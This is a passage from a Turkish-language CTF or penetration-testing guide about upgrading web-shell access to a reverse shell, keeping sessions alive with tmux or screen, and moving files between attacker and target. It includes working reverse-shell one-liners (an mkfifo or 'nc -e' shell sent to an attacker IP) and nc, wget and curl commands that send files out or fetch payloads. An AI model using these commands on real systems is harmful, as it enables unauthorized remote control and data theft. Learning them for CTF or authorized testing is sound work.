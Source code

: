 ### Web Shell'leri Yükseltme

Eğer erişiminiz bir web shell (örneğin, PHP, ASPX, JSP web shell) üzerinden ise, önce bu web shell'i kullanarak bir ters bağlantı (reverse shell) elde etmeniz gerekir. Ardından yukarıdaki `rlwrap` ve PTY yükseltme tekniklerini uygulayabilirsiniz.

**Örnek: PHP Web Shell'den `netcat` ile Ters Bağlantı**
Web shell'in komut çalıştırma arayüzüne şunu yazın (IP ve Port'u kendinize göre değiştirin):
```bash
# nc.traditional veya OpenBSD nc (genellikle -e desteklemez)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <SALDIRGAN_IP> <PORT> >/tmp/f

# nc (bazı versiyonları -e destekler)
nc -e /bin/bash <SALDIRGAN_IP> <PORT>
```
Saldırgan makinede `rlwrap nc -lvnp <PORT>` ile dinleyin. Bağlantı geldikten sonra PTY yükseltme adımlarına geçin.

### `tmux` veya `screen` Kullanımı

Hem saldırgan hem de (mümkünse) hedef tarafta `tmux` veya `screen` kullanmak, bağlantı kopmalarına karşı dayanıklılık sağlar ve oturumları yönetmeyi kolaylaştırır.

**Saldırgan Tarafta:**
Tüm `nc` veya `socat` dinleyicilerinizi bir `tmux` veya `screen` oturumu içinde başlatın.
```bash
tmux new -s ctf_session
# tmux içinde: rlwrap nc -lvnp <PORT>
# Ayrılmak için: Ctrl+b, d (detach)
# Tekrar bağlanmak için: tmux attach -t ctf_session
```

**Hedef Tarafta (Eğer Yüklüyse ve Çalıştırabiliyorsanız):**
Yükseltilmiş shell'e ulaştıktan sonra, hedefte `tmux` veya `screen` varsa, komutlarınızı bunun içinde çalıştırmak da stabiliteyi artırabilir.
```bash
# Yükseltilmiş shell içinde
screen -S work
# veya
tmux new -s work
```

### Dosya Transferi İçin Hızlı Yöntemler
Yükseltilmiş bir shell, dosya transferini kolaylaştırır.

*   **Python HTTP Sunucusu (Dosya İndirme):**
    *   **Hedef** (dosyaların olduğu dizinde):
        *   Python 3: `python3 -m http.server 8000`
        *   Python 2: `python -m SimpleHTTPServer 8000`
    *   **Saldırgan:** Tarayıcıdan `http://<HEDEF_IP>:8000` veya `wget http://<HEDEF_IP>:8000/dosya_adi`
*   **`nc` (Netcat) ile Dosya Transferi:**
    *   **Saldırgan (Dosya Alıcı):** `nc -lvnp <PORT> > gelen_dosya.txt`
    *   **Hedef (Dosya Gönderici):** `nc <SALDIRGAN_IP> <PORT> < gonderilecek_dosya.txt`
    *   Ters yönde de çalışır.
*   **Base64 Kodlama/Çözme (Küçük Dosyalar):**
    *   **Saldırgan (Gönderme):** `cat dosya.txt | base64 -w0` (çıktıyı kopyala)
    *   **Hedef (Alma):** `echo "<KOPYALANAN_BASE64_STRING>" | base64 -d > dosya.txt`
*   **`wget` / `curl` (Hedefte Dosya İndirme):**
    *   **Saldırgan** (dosyaların olduğu dizinde Python HTTP sunucusu başlatın)
    *   **Hedef:** `wget http://<SALDIRGAN_IP>:8000/dosya_adi -O /tmp/dosya_adi`
    *   **Hedef:** `curl http://<SALDIRGAN_IP>:8000/dosya_adi -o /tmp/dosya_adi`

